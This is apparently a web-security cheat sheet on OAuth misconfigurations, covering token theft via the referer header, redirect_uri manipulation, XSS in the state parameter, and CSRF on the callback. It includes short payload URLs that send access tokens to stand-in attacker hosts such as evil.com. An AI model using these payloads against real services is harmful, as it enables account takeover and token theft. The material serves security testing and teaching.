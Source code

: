 # OAuth Misconfiguration

## Summary

- [Stealing OAuth Token via referer](#stealing-oauth-token-via-referer)
- [Grabbing OAuth Token via redirect_uri](#grabbing-oauth-token-via-redirect---uri)
- [Executing XSS via redirect_uri](#executing-xss-via-redirect---uri)
- [OAuth private key disclosure](#oauth-private-key-disclosure)
- [Authorization Code Rule Violation](#authorization-code-rule-violation)
- [Cross-Site Request Forgery](#cross-site-request-forgery)
- [References](#references)

## Stealing OAuth Token via referer

From [@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544) tweet.

> Do you have HTML injection but can't get XSS? Are there any OAuth implementations on the site? If so, setup an img tag to your server and see if there's a way to get the victim there (redirect, etc.) after login to steal OAuth tokens via referer 

## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

Redirect to an accepted Open URL in to get the access token

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## Executing XSS via redirect_uri

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## OAuth private key disclosure

Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.

## Authorization Code Rule Violation

> The client MUST NOT use the authorization code  more than once.  
If an authorization code is used more than once, the authorization server MUST deny the request 
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.

## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (`https://example.com/callback?code=AUTHORIZATION_CODE`). This URL can be used in CSRF attacks.

> The client MUST implement CSRF protection for its redirection URI. This is typically accomplished by requiring any request sent to the redirection URI endpoint to include a value that binds the request to the user-agent's authenticated state. The client SHOULD utilize the "state" request parameter to deliver this value to the authorization server when making an authorization request.

## Labs

* [Authentication bypass via OAuth implicit flow](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)
* [Forced OAuth profile linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)
* [OAuth account hijacking via redirect_uri](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)
* [Stealing OAuth access tokens via a proxy page](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)
* [Stealing OAuth access tokens via an open redirect](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)


## References

* [All your Paypal OAuth tokens belong to me - localhost for the win - INTO THE SYMMETRY](http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html)
* [OAuth 2 - How I have hacked Facebook again (..and would have stolen a valid access token) - INTO THE SYMMETRY](http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html)
* [How I hacked Github again. - Egor Homakov](http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html)
* [How Microsoft is giving your data to Facebook… and everyone else - Andris Atteka](http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html)
- [Bypassing Google Authentication on Periscope's Administration Panel](https://whitton.io/articles/bypassing-google-authentication-on-periscopes-admin-panel/) By Jack Whitton